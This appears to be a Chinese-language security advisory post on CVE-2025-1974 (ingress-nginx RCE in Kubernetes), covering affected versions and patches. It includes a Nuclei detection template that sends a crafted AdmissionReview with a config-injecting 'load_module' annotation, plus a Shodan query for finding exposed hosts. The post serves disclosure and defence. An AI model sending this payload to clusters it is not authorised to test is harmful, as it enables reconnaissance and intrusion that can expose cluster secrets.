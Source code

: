 #  Kubernetes CVE-2025-1974 RCE   
 TtTeam   2025-04-21 03:29  
  
Kubernetes 中发现了一个安全问题。在某些情况下，未经身份验证且能够访问 Pod 网络的攻击者可以在 ingress-nginx 控制器上下文中执行任意代码。这可能导致控制器可访问的 Secret 信息泄露。（请注意，在默认安装中，控制器可以访问集群范围内的所有 Secret。）  
  
此问题会影响 ingress-nginx。如果您的集群中未安装 ingress-nginx，则不会受到影响。您可以通过运行“kubectl get pods --all-namespaces --selector app.kubernetes.io/name=ingress-nginx”来检查。  
  
受影响的版本  
- < v1.11.0  
  
- v1.11.0 - 1.11.4  
  
- v1.12.0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB0X2xYwl8oyGI2XNTcyb89nPkxB9iaT26KSwtjQb6GD6ommYvN7nGHQFCCqLkVM2KuHHyxCGsmNic6Q/640?wx_fmt=png&from=appmsg "")  
  
POC  
  
```
id: CVE-2025-1974
2
3info:
4  name: Ingress-Nginx Controller - Remote Code Execution
5  author: iamnoooob,rootxharsh,pdresearch
6  severity: critical
7  description: |
8    A security issue was discovered in ingress-nginx where the `auth-tls-match-cn` Ingress annotation can be used to inject configuration into nginx. This can lead to arbitrary code execution in the context of the ingress-nginx controller, and disclosure of Secrets accessible to the controller
9  impact: |
10    Vulnerable versions of Ingress-Nginx controller can be exploited to gain unauthorized access to all secrets across namespaces in the Kubernetes cluster, potentially leading to complete cluster takeover.
11  remediation: |
12    Update to one of the following versions: Version 1.12.1 or later / Version 1.11.5 or later
13  reference:
14    - https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
15    - https://projectdiscovery.io/blog/ingressnightmare-unauth-rce-in-ingress-nginx
16    - https://nvd.nist.gov/vuln/detail/CVE-2025-1974
17  classification:
18    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
19    cvss-score: 9.8
20    cwe-id: CWE-653
21    cve-id: CVE-2025-1974
22  metadata:
23    verified: true
24    max-request: 1
25    shodan-query: ssl:"ingress-nginx" port:8443
26  tags: cve,cve2025,cloud,devops,kubernetes,ingress,nginx,k8s
27
28http:
29  - raw:
30      - |
31        POST / HTTP/1.1
32        Host: {{Hostname}}
33        Content-Type: application/json
34
35        {
36          "kind": "AdmissionReview",
37          "apiVersion": "admission.k8s.io/v1",
38          "request": {
39            "uid": "d48aa397-c414-4fb2-a2b0-b28187daf8a6",
40            "kind": {
41              "group": "networking.k8s.io",
42              "version": "v1",
43              "kind": "Ingress"
44            },
45            "resource": {
46              "group": "networking.k8s.io",
47              "version": "v1",
48              "resource": "ingresses"
49            },
50            "requestKind": {
51              "group": "networking.k8s.io",
52              "version": "v1",
53              "kind": "Ingress"
54            },
55            "requestResource": {
56              "group": "networking.k8s.io",
57              "version": "v1",
58              "resource": "ingresses"
59            },
60            "name": "test-{{randstr}}",
61            "namespace": "default",
62            "operation": "CREATE",
63            "userInfo": {
64
65            },
66            "object": {
67              "kind": "Ingress",
68              "apiVersion": "networking.k8s.io/v1",
69              "metadata": {
70                "name": "test-{{randstr}}",
71                "namespace": "default",
72                "creationTimestamp": null,
73                "annotations": {
74        "nginx.ingress.kubernetes.io/auth-url": "http://example.com#;load_module test;\n"
75                }
76              },
77              "spec": {
78                "ingressClassName": "nginx",
79                "rules": [
80                  {
81                    "host": "{{randstr}}",
82                    "http": {
83                      "paths": [
84                      ]
85                    }
86                  }
87                ]
88              },
89              "status": {
90                "loadBalancer": {}
91              }
92            },
93            "oldObject": null,
94            "dryRun": true,
95            "options": {
96              "kind": "CreateOptions",
97              "apiVersion": "meta.k8s.io/v1"
98            }
99          }
100        }
101
102    matchers:
103      - type: word
104        part: body
105        words:
106          - 'AdmissionReview'
107          - 'directive is not allowed here'
108          - 'load_module'
109        condition: and
```  
  
  
需要采取的措施：必须采取以下步骤来缓解此漏洞：将 ingress-nginx 升级到 v1.11.5、v1.12.1 或任何更高版本。  
  
在应用补丁之前，可以通过禁用 ingress-nginx 的验证准入控制器功能来缓解此问题。  
  
  

